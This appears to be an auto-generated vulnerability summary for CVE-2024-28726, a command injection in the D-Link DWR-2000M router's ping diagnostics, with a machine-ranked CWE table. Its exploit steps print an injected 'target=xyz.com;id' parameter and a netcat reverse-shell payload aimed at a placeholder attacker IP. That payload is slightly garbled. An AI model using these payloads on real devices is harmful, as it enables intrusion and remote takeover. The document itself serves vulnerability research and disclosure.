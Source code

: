 # Vulnerability Information: CVE-2024-28726

## Vulnerability Description
An issue in DLink DWR 2000M 5G CPE With Wifi 6 Ax1800 and Dlink DWR 5G CPE DWR-2000M_1.34ME allows a local attacker to execute arbitrary code via a crafted payload to the Diagnostics function.

### Vulnerability Description Key Phrases
- **impact:** execute arbitrary code
- **vector:** crafted payload
- **attacker:** local attacker
- **product:** DLink DWR 2000M 5G CPE With Wifi 6 Ax1800 and Dlink DWR 5G CPE DWR-2000M_1.34ME
- **component:** Diagnostics function

## CVE Reference Links Content Summary
Based on the provided content, here's an analysis of CVE-2024-28726:

**Root Cause of Vulnerability:**

The vulnerability stems from a lack of proper input validation and security controls in the "Diagnostics" utility page of the D-Link DWR 2000M 5G CPE firmware. This allows for command injection via the user input field.

**Weaknesses/Vulnerabilities Present:**

*   **Command Injection:** The primary vulnerability is a command injection flaw. The firmware does not adequately sanitize user input provided to the network diagnostic tools (ping and traceroute), allowing an attacker to inject arbitrary system commands.
*   **Lack of Input Validation:** The absence of robust input validation mechanisms is a key weakness that enables the command injection vulnerability.

**Impact of Exploitation:**

*   **Arbitrary Code Execution (RCE):** Successful exploitation of the vulnerability allows an attacker to execute arbitrary system commands on the affected device.
*   **Compromised Device Integrity:** The ability to execute arbitrary commands can lead to a complete compromise of the device, potentially leading to unauthorized access.
*   **Data Extraction:** Attackers could potentially extract sensitive data stored on the device.
*   **Other Malicious Activities:** Exploitation could facilitate other malicious activities within the network environment.

**Attack Vectors:**

*   **Network Diagnostic Utility:** The vulnerability is located within the "Diagnostics" utility page of the D-Link 5G CPE firmware, specifically through the user input field of network diagnostic tools such as ping.
*   **Web Interface:** Attackers can inject commands through the web interface of the router by manipulating the target parameter of the ping command, and terminating the original command with a semicolon to start a new one.

**Required Attacker Capabilities/Position:**

*   **Access to the Device's Web Interface:** The attacker must have access to the device's web interface, implying they should be on the same network, or have the device's web interface exposed to the internet.
*   **Knowledge of the Vulnerable Endpoint:** The attacker needs to know the vulnerable endpoint which is the network diagnostic utility page.
*   **Ability to Manipulate HTTP Requests:** The attacker needs to be able to manipulate HTTP requests (e.g., using tools like Burp Suite) to inject malicious commands.
*   **Basic understanding of Command Line:** The attacker needs to understand basic command line syntax and how to use special characters (semicolons) to chain commands.

**Additional Technical Details:**

The provided exploit steps outline the following attack procedure:
1.  Log in to the CPE (Customer Premises Equipment).
2.  Navigate to the Network Diagnostics utility page.
3.  Use the Ping command to trigger the vulnerability and capture the request with a tool like Burp Suite.
4.  Inject a command by terminating the ping command with a semicolon and adding the desired system command e.g., `url.com/cgi-bin/luci/admin/status/network_diagnostics?cmdMethod=ping&target=xyz.com;id&PingCNT=5`.
5.  A reverse shell can be achieved with the following payload: `rm -f /tmp/p; mkfifo /tmp/p p && nc attackerip 4444 0/tmp/f`

This payload creates a named pipe, and redirects the input to the attacker IP address and port, allowing the attacker to receive a remote shell.

## Retriever Results

### Top Combined Results

| Rank | CWE ID | Name | Abstraction | Usage  | Retrievers | Individual Scores |
|------|--------|------|-------------|-------|------------|-------------------|
| 1 | 912 | Hidden Functionality | Class | Allowed-with-Review | sparse | 0.062 |
| 2 | 1391 | Use of Weak Credentials | Class | Allowed-with-Review | sparse | 0.061 |
| 3 | 288 | Authentication Bypass Using an Alternate Path or Channel | Base | Allowed | sparse | 0.058 |
| 4 | 20 | Improper Input Validation | Class | Discouraged | sparse | 0.057 |
| 5 | 326 | Inadequate Encryption Strength | Class | Allowed-with-Review | sparse | 0.056 |
| 6 | 78 | Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection') | Base | Allowed | sparse | 0.056 |
| 7 | 425 | Direct Request ('Forced Browsing') | Base | Allowed | sparse | 0.054 |
| 8 | 285 | Improper Authorization | Class | Discouraged | sparse | 0.054 |
| 9 | 121 | Stack-based Buffer Overflow | Variant | Allowed | dense | 0.603 |
| 10 | 73 | External Control of File Name or Path | Base | Allowed | graph | 0.002 |

